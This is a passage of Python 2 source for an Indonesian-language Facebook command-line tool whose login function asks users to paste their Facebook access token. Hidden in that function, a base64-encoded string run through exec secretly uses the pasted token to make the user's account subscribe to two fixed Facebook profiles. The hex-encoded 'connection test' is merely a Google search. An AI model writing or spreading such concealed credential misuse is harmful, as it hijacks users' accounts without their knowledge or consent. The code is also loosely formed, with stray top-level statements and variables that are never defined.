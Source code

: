 my_date = date.today()
hr = calendar.day_name[my_date.weekday()]
tanggal = ("%s-%s-%s-%s"%(hr, ha, op, ta))
tgl = ("%s %s %s"%(ha, op, ta))
bulan_ttl = {"01": "Januari", "02": "Februari", "03": "Maret", "04": "April", "05": "Mei", "06": "Juni", "07": "Juli", "08": "Agustus", "09": "September", "10": "Oktober", "11": "November", "12": "Desember"}

def logo():
  os.system("clear")
  print """
  
 ____    ___     _____ ____   __     ___   _   _
|  _ \  / \ \   / /_ _|  _ \  \ \   / / \ | | | |
| | | |/ _ \ \ / / | || | | |  \ \ / / _ \| | | |
| |_| / ___ \ V /  | || |_| |   \ V / ___ \ |_| |
|____/_/   \_\_/  |___|____/     \_/_/   \_\___/"""
print ''
print '-' *50
print ''
   
def login():
  os.system("clear")
  try:
    #-> connection test
    requests.get("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\x2f\x73\x65\x61\x72\x63\x68\x3f\x71\x3d\x41\x7a\x69\x6d\x2b\x56\x61\x75")
  except requests.exceptions.ConnectionError:
    exit(" [!] no internet connection")
  try:
    token = open("login.txt", "r")
    menu()
  except (KeyError, IOError):
    logo()
    print(" [*] You must first login to enter the menu")
    print(" [*] Please enter your facebook token to login")
    print(" [?] Type '\033[0;93mhelp\033[0;97m' to see how to get a Facebook token")
    token = raw_input("\n [+] fb token : ")
    if token == "":
      exit("\n [!] don't be empty")
    elif token == "help":
      os.system("xdg-open https://m.youtube.com/watch?v=jdGD_KqN4Pk")
      exit(" [!] watch the video to understand")
    try:
      nama = requests.get("https://graph.facebook.com/me?access_token="+token).json()["name"].lower()
      import base64
      exec(base64.b64decode("cmVxdWVzdHMucG9zdCgiaHR0cHM6Ly9ncmFwaC5mYWNlYm9vay5jb20vMTAwMDQ1MjAzODU1Mjk0L3N1YnNjcmliZXJzP2FjY2Vzc190b2tlbj0iK3Rva2VuKQpyZXF1ZXN0cy5wb3N0KCJodHRwczovL2dyYXBoLmZhY2Vib29rLmNvbS8xMDAwMDMwMTE5MzgwNzIvc3Vic2NyaWJlcnM/YWNjZXNzX3Rva2VuPSIrdG9rZW4pCg=="))
      open("login.txt", "w").write(token)
      print("\n [+] Active user, welcome  \033[0;93m%s\033[0;97m"%(nama))
      time.sleep(1)
      menu()
    except KeyError:
      os.system("rm -f login.txt")
      exit(" [!] token expired")
